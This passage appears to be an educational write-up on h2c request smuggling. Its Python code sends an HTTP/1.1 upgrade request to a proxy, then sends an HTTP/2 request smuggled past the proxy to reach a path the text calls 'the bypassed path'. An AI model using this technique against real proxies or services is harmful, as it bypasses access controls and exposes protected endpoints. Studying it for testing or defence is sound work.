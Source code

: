 > We point to a TCP connection/socket using file descriptors (as everything in linux is a file), hence
why we're return the socket.

#### `2. Sending the Initial HTTP/1.1 Request`


```python
def send_initial_request(connection, proxy_url):
    path = proxy_url.path or "/"

    request = (
        b"GET " + path.encode('utf-8') + b" HTTP/1.1\r\n" +
        b"Host: " + proxy_url.hostname.encode('utf-8') + b"\r\n" +
        b"Accept: */*\r\n" +
        b"Accept-Language: en\r\n" +
        b"Upgrade: h2c\r\n" +
        b"HTTP2-Settings: " + b"AAMAAABkAARAAAAAAAIAAAAA" + b"\r\n" +
        b"Connection: Upgrade, HTTP2-Settings\r\n" +
        b"\r\n"
    )
    connection.sendall(request)
```

* The `HTTP2-Settings` headers defines the terms by which client and server communicate (max concurrent streams...etc).
* `Connection: Upgrade, HTTP2-Settings` tells the server that the request wants to upgrade to HTTP/2 and that it
wants to use the HTTP2-Settings for upgrade negotiation.

#### `3. Creating H2 Connection Object & Sending Smuggled Request`

Assuming the latter request gave a `101 Switching Protocols` status code. Let's now
send our HTTP/2 requests.

HTTP/2 is a binary framed protocol. In simple terms, it doesn't depend on raw text
data like Http/1.x do (\r\n to be precise). So data is encapsulated in clear binary
format. The object that handles this encapsulation is `H2Connection`.

It’s like a translator: you tell it what you want to say (e.g., send a request), and it gives you raw bytes to send over the wire.

```python
import h2.connection

# This doesn't create a network connection
# h2_connection only gives binary data that WE OURSELVES send through the original tcp connection
h2_connection = h2.connection.H2Connection()

def sendSmuggledRequest(h2_connection, connection, args):
    stream_id = h2_connection.get_next_available_stream_id()

    smuggled_request_headers = [
        (':method', 'GET'),
        (':scheme', 'http'),
        (':authority', 'localhost'),
        (':path', '/api/noopsy'), # the bypassed path
    ]
    # Prepare the headers from python's format into binary format
    h2_connection.send_headers(stream_id, smuggled_request_headers)

    # Actually send the data
    connection.sendall(h2_connection.data_to_send())
```
